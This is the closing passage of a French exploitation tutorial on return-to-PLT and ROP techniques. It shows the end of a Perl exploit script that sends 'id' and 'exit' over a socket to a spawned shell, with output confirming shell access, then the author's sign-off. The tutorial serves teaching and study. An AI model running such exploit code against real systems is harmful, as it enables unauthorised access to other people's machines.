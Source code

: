 ```perl

	sleep(1);

	# The shell is now spawned : you can send commands !
	print $sock "id\nexit\n";

	while(($buff = <$sock>)) {
		print $buff;
	}
```

Lançons-le :

```
	$ perl sploit.pl
	uid=1000(tosh) gid=100(users) groups=100(users)
```

Bingo !

Le ret to PLT clos la première partie de cet article.

Il est à noter que toutes ces techniques peuvent bien sûr être combinées suivant les besoin et suivant les cas.
N'oubliez pas que chaque exploitation de vulnérabilité est unique en son genre, le plus important est d'être inventif !

Une deuxième partie de cet article devrait voir le jour, avec des nouvelles techniques de ROP pour être encore plus efficace dans l'exploitation de failles applicatives !

J'espère que ça vous à plût, n'hésitez pas à envoyer votre feedback !

Happy Hacking !

-Tosh-

